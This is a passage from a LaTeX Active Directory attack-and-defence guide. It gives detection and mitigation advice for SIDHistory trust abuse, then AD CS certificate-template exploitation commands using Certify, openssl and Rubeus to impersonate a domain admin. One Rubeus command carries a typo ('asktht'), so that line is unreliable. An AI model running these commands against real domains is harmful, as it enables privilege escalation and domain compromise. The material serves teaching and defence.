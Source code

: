\textbf{Impact:} Root domain compromise from a child domain toehold.

\subsection{Defender View}
\begin{itemize}
    \item \textbf{Detection:}
    \begin{itemize}
        \item Monitor for Kerberos tickets containing unexpected \texttt{SIDHistory} values.
        \item Alert on ticket requests for accounts from other domains with elevated SIDs.
    \end{itemize}
    \item \textbf{Mitigation:}
    \begin{itemize}
        \item Enable SID filtering between domains.
        \item Regularly audit trust relationships for excessive or outdated configurations.
    \end{itemize}
\end{itemize}

\section{4. AD CS Exploitation}

\subsection{Attacker View}
Misconfigured \textit{Certificate Templates} can allow any authenticated user to request a certificate for a privileged account (ESC1–ESC8).

\textbf{Steps:}
\begin{lstlisting}
Certify.exe find /vulnerable /quiet

Certify.exe request /template:<TemplateName> /quiet `
/ca:"<CA Name>" /domain:<domain.com> `
/altname:<DA AltName> /machine

# Combine cert.pem and convert to PKCS#12
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Use certificate for Kerberos auth
Rubeus.exe asktht /user:<DA AltName> /domain:<domain.com> `
/dc:<DC> /certificate:<cert.pfx> /nowrap /ptt
\end{lstlisting}

